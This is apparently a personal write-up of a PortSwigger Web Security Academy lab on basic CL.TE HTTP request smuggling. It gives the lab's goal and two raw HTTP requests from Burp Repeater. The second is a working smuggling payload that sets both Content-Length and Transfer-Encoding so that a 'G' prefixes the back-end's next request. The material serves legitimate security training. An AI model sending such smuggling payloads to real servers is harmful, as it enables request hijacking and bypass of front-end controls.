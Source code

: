 
# HTTP request smuggling, basic CL.TE vulnerability

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

Note: Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.


---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling



![img](images/HTTP%20request%20smuggling,%20basic%20CL.TE%20vulnerability/1.png)

---------------------------------------------

Intercept the request to “/” and change the HTTP method in the Repeater tab and the method to POST:

```
POST / HTTP/1.1
Host: 0ad100e2031e22e4802bfd8000b500ed.web-security-academy.net
Cookie: session=b8XcvijmPd8C0rUH0GtgGgXQW5YZ0n8c
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ad100e2031e22e4802bfd8000b500ed.web-security-academy.net/post?postId=2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```



![img](images/HTTP%20request%20smuggling,%20basic%20CL.TE%20vulnerability/2.png)


To smuggle the next request and add a "G" to it:

- *Transfer-Encoding: chunked* because the backend understands it
- *Content-Length: 14* so the G is not part of the payload

```
POST / HTTP/1.1
Host: 0ad100e2031e22e4802bfd8000b500ed.web-security-academy.net
Cookie: session=b8XcvijmPd8C0rUH0GtgGgXQW5YZ0n8c
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ad100e2031e22e4802bfd8000b500ed.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Transfer-Encoding: chunked
Connection: close

3
x=y
0

G
```





![img](images/HTTP%20request%20smuggling,%20basic%20CL.TE%20vulnerability/3.png)
![img](images/HTTP%20request%20smuggling,%20basic%20CL.TE%20vulnerability/4.png)


The important part is the 0:



![img](images/HTTP%20request%20smuggling,%20basic%20CL.TE%20vulnerability/5.png)